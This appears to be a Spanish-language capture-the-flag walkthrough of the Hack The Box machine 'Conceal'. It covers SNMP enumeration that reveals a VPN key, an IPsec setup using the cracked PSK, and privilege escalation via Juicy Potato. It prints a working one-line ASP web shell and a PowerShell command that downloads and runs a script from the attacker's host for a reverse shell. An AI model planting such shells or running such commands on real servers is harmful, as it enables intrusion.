 # Conceal-HTB


## Nmap 

Esta maquina no permite que de una escanees lo puertos tcp por lo que tuve que usar UDP y ahi si.



Vemos el puerto 161 UDP de SNMP intentamos usar el snmpwalk

```
snmpwalk -v 2c -c public 10.10.10.116
```

Encontramos lo que parece ser un password

```
VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43"
```

![image](https://github.com/gecr07/Conceal-HTB/assets/63270579/ba97a2ff-cfd4-48de-bd6b-39c4d4592959)

## IKE - UDP 500

Nos tenemos que conectar via IPSEC.

> UDP 500 is used for Internet Key Exchange (IKE), which is used to establish an IPSEC VPN. There is some recon I can do on the IKE using ike-scan:

```
ike-scan -M 10.10.10.116
```

En base a lo que dice hacktricks podemos ver que tipo de conexion tiene. El problema de esto es la configuracion. 

```
sudo apt install strongswan
```

Para configurar tienes que tocar estos archivos y pues existen vaias maneras de hacer esto pero esta fue la que ami me funciono /etc/ipsec.conf:

```
# ipsec.conf - strongSwan IPsec configuration file

config setup
    charondebug="all"
    uniqueids=yes
    strictcrlpolicy=no

conn conceal
    authby=secret
    auto=add
    ike=3des-sha1-modp1024!
    esp=3des-sha1!
    type=transport
    keyexchange=ikev1
    left=10.10.14.15
    right=10.10.10.116
    rightsubnet=10.10.10.116[tcp]
```


Y ahora tocamos ipsec.secrets

```
# This file holds shared secrets or RSA private keys for authentication.

%any : PSK "Dudecake1!"
```

Despues te conectas con

```
 ipsec up conceal

Si no ajala intenta reinciar la conexion

 ipsec restart 
```

![image](https://github.com/gecr07/Conceal-HTB/assets/63270579/3c6e52e0-e1e5-4354-ba48-30e2e71a66f8)


Ya conectados tenemos acceso a todos los puertos.

![image](https://github.com/gecr07/Conceal-HTB/assets/63270579/27ea264d-9098-4370-9a26-7894b367ee33)


### IIS server 

![image](https://github.com/gecr07/Conceal-HTB/assets/63270579/10402f18-a2aa-4e7d-82ff-e436360e51ac)



Tenemos el folder upload ahi subimos el shell.asp

```
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```

Y pues con la shell reverse...


```
http://10.129.228.122/upload/shell.asp?cmd=powershell%20iex(new-object%20net.webclient).downloadstring(%27http://10.10.15.72/shell.ps1%27)
```


## Podemos usar el Juicy potato


![image](https://github.com/gecr07/Conceal-HTB/assets/63270579/18c0b34b-d8e0-4549-b362-1fed2286ac35)



































